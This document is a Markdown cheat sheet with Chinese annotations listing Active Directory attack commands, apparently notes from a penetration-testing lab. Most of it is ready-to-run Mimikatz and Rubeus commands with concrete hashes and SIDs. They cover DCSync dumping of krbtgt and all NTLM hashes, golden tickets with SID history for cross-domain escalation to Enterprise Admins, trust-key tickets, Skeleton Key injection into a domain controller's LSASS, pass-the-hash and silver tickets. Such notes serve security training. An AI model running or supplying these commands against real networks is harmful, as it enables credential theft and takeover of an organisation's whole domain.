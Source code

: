 	- `lsadump::dcsync /user:dcorp\krbtgt`
		- User Name 記得帶 Domain
	- `lsadump::dcsync /all /csv`
		- 顯示全部的 NTLM
- SID History
	- `kerberos::golden /domain:dollarcorp.moneycorp.local /target:moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:3199214e479a6d209711d7f653fdfa8d /user:Administrator /service:krbtgt /ticket:C:\Users\Public\t.kirbi` (請求 TGT)
		- 對於兩台 DC 互相 Trust 的狀況下
			- Inter-Realm Key
				- `domain` 原始 domain
				- `target` 目標 Domain
				- `sid` 目前 Domain SID
				- `sids` 目標的 Parent Domain SID (Enterprise Admins SID)
				- `rc4` trust key
				- `service` 目標 Service
				- `ticket` 存擋目標
				- 接著使用 Rubeus 來請求 TGS
					- `Rubeus.exe asktgs /ticket:C:\Users\Public\t.kirbi /service:ldap/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt`
			- 有第一台的 Krbtgt 可以直接拿第二台的 Golden Ticket
				- `kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /user:Administrator /ptt`
					- `domain` 原始的
					- `sid` 原始 SID
					- `sids` 目標 Group SID (Enterprise Admins SID)
					- `krbtgt` 原始機器上的 rc4 krbtgt
					- `user` 要變造的 user
- Trusted Key
	- `kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /target:eurocorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:7430f926bd403f3cdc453567bcbd19e7 /ticket:C:\Users\Public\trust_eu.kirbi`
		- `domain` 原始 domain
		- `target` 目標 domain
		- `sid` 原始 Domain sid
		- `rc4` trust key
		- `ticket` 存擋位置
- Skeleton Key (萬能密碼)
	- 注射密碼進去 DC 的 LSASS (重開機就沒ㄌ)
		- `Invoke-Mimikatz -Computer dcorp-dc -Command '"privilege::debug" "misc::skeleton"'`
		- 所有 User 都可以用密碼 `mimikatz` 進行燈
- Invoke-Mimi (Remote)
	- `Invoke-Mimi {computer-name} -Command {...}`
- Invoke-Mimikatz (Remote)
	- `Invoke-Mimkatz -ComputerName {computer-name} -Command {...}` 
## Rubeus
- Over Pass The Hash
	- `Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /ptt`
		- aes256 可以改成 RC4(也就是 ntlm)
		- 也可以多帶 domain 參數達到跨 Domain 的功能
			- `Rubeus.exe asktgt /user:administrator /domain:moneycorp.local /rc4:71d04f9d50ceb1f64de7a09f23e6dc4c /ptt`
- Silver Ticket
	- `Rubeus.exe silver /service:HOST/dcorp-dc /rc4:83471b07629c4a77e5514d9754f6b853 /domain:dollarcorp.moneycorp.local /user:Administrator /sid:S-1-5-21-719815819-3726368948-3917688648 /ptt`
		- Service 可以從 `(Get-DomainComputer Dcorp-DC).serviceprincipalname`
			- 例如 
				- `HOST` : Schedule Task
				- `CIFS` : SMB
				- `HOST` + `RPCSS`: wmi